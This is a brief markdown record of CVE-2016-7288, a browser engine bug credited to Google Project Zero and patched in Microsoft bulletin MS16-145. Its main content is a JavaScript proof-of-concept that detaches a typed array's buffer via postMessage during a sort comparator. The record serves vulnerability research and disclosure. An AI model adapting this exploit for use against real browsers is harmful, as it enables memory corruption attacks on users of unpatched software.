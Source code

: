 # CVE-2016-7288

- Report: Nov 2016
- Fix: Dec 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var buf = new ArrayBuffer( 0x10010);
var numbers = new Uint8Array(buf);

function v(){
   // neuter buf
   postMessage("test", "http://127.0.0.1", [buf])
   return 7;
}

function compareNumbers(a, b) {
  return {valueOf : v};
}

numbers.sort(compareNumbers);
```

## Reference

- [Microsoft (MS16-145)](http://technet.microsoft.com/security/bulletin/MS16-145)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=983)
